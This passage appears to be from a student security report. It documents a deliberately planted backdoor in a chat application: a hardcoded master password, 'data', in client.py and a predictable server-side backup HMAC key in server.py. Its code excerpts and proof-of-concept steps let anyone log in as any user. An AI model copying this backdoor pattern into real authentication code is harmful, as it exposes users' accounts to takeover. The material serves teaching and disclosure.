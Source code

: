 Please see appendix 5 in the reflective report for screenshots of this backdoor in use.

<br>
## 2. Secret Password login Override
A hardcoded **secret password** exists, that allows an attacker to log in as **any user**.

The password and key have both been hidden within `client.py`:
```bash

FOLDER_DIRECTORY = "data"    
...
except ValueError:
        if password == FOLDER_DIRECTORY:
            try:
                if os.path.exists(BACKUP_KEY_FILE):
                    with open(BACKUP_KEY_FILE, "rb") as f:
                        bkp = f.read()
                    priv = load_pem_private_key(bkp, password=FOLDER_DIRECTORY.encode("utf-8"))
                    pub_b64u = public_key_b64u_from_private(priv)
                    print("loaded backup private key")
                else:
                    print("backup key not found. Cannot login.")
                    return
            except Exception as e:
                print("Failed to load:", e)
                return
        else:
            print("⚠️ Incorrect password, please try again.")
            return
```

and within `server.py`:

```bash
    backup_key = hashlib.sha256(("server_ip" + username).encode("utf-8")).digest()
    expected_backup = hmac.new(backup_key, nonce, hashlib.sha256).hexdigest()

    
    if not (
        (expected_normal and hmac.compare_digest(proof_hex, expected_normal))
        or hmac.compare_digest(proof_hex, expected_backup)
    ):
        await send_error(ws, "BAD_PASSWORD", "Invalid credentials")
        return
```

This password will grant log in access to any user, **without** the need to enter their correct password.

### Proof of Concept
* Assuming a user, Alex, creates an account with the username `Alex123`, and a password `myPassword`.
* Once their account is created, Alex then logs in with their password `myPassword`.
* However, if Alex types in the hardcoded password `data`, a backup key is loaded which allows Alex to log in **without** their password.
* Similarly, an attacker can use this **master password** to log in as Alex, or as **any** user.
* Once the attacker has access to a user's username, they can enter `data` as the user's password to gain access to their account.
* If the user / attacker does not enter `data` or the correct password, in this case `myPassword`, the system will deny access.
  
